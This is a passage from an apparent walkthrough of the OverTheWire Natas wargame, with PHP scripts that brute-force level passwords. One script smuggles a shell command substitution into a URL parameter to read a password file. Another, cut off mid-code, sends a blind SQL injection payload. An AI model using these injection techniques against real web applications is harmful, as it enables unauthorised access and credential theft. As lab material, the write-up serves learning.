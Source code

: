 ~~~~
        ]
    ];

    $context  = stream_context_create($options);
    $raw_response = file_get_contents($url, false, $context);
    return $raw_response;
}

$c = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
$library = '';

for ($i = 0; $i < strlen($c); $i++)
{
    $character = $c[$i];
    //whirlpools$(grep a /etc/natas_webpass/natas17)
    $command = urlencode("whirlpools$(grep $character /etc/natas_webpass/natas17)");
    $r = get("http://natas16.natas.labs.overthewire.org/index.php?needle=$command");
    if (!strpos($r, "whirlpools"))
    {
        $library .= $character;
    }
}

var_dump($library);
~~~~

Outputs: `string(26) "bcdghkmnqrswAGHNPQSW035789"`

Heck yeah, it worked! Now we need to check each of these for the 32 positions of the password, just like last time.

~~~~
<?php

function post($url, $data)
{
    $username = "natas16";
    $password = "[censored]";
    $string = base64_encode("$username:$password");

    $options = [
        'http' => [
            'header'  => "Content-Type: application/x-www-form-urlencoded\r\n" . "authorization: Basic $string",
            'method'  => 'POST',
            'content' => http_build_query($data),
        ]
    ];

    $context  = stream_context_create($options);
    $raw_response = file_get_contents($url, false, $context);
    return $raw_response;
}


$c = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
$library = '';

for ($i = 0; $i < strlen($c); $i++)
{
    $character = $c[$i];
    $r = post("http://natas15.natas.labs.overthewire.org/index.php?debug", ['username' => "natas16\" AND password LIKE BINARY \"%$character%\"#"]);
    if (strpos($r, "<br>This user exists.<br>"))
~~~~